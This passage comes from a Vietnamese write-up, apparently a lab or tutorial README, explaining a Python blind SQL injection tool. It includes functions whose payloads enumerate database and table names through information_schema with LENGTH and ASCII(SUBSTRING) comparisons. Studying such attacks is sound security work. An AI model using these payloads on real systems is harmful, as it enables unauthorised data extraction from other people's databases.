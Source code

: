 - Hàm này trích xuất từng ký tự của chuỗi từ cơ sở dữ liệu bằng cách sử dụng tìm kiếm nhị phân.
- Nó thực hiện tìm kiếm cho từng vị trí trong chuỗi (từ 1 đến `length`), và dùng `extract_binary_search()` để tìm giá trị ASCII của ký tự tại mỗi vị trí.

##### 6.Hàm `get_database_names`
```js
def get_database_names():
    """Lấy danh sách databases."""
    databases = []
    index = 1
    while True:
        # Lấy chiều dài của database name
        base_payload = (
            f"' AND LENGTH((SELECT schema_name FROM information_schema.schemata LIMIT {index - 1}, 1)) = {{length}}--+-"
        )
        length = get_string_length(base_payload)
        if not length:
            break
        # Lấy nội dung của database name
        base_payload_content = (
            f"' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT {index - 1}, 1), {{position}}, 1)) {{operator}} {{value}}--+-"
        )
        db_name = get_string_content(base_payload_content, length)
        databases.append(db_name)
        index += 1
    return databases
```

- Hàm này lấy danh sách các cơ sở dữ liệu (`databases`) bằng cách sử dụng SQL injection. Nó thực hiện tìm kiếm chuỗi tên các database từ bảng `information_schema.schemata`.
- Mỗi lần thử, hàm tìm chiều dài và nội dung của một tên cơ sở dữ liệu, sau đó thêm vào danh sách `databases`.

**Kết quả DATABASE:**
![Screenshot 2025-05-27 144449](https://github.com/user-attachments/assets/32662a27-a001-448f-b8c8-3e836fa1a6aa)

##### 7.Hàm `get_tables`

Lấy ra các bảng trong Database mà người dùng vừa chọn
```js
def get_tables(database):  
    """Lấy danh sách tables của một database."""  
    tables = []  
    index = 1  
    while True:  
        base_payload = (  
            f"' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='{database}' LIMIT {index - 1}, 1)) = {{length}}--+-"  
        )  
        length = get_string_length(base_payload)  
        if not length:  
            break  
        base_payload_content = (  
            f"' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='{database}' LIMIT {index - 1}, 1), {{position}}, 1)) {{operator}} {{value}}--+-"  
        )  
        table_name = get_string_content(base_payload_content, length)  
        tables.append(table_name)  
        index += 1  
    return tables
```
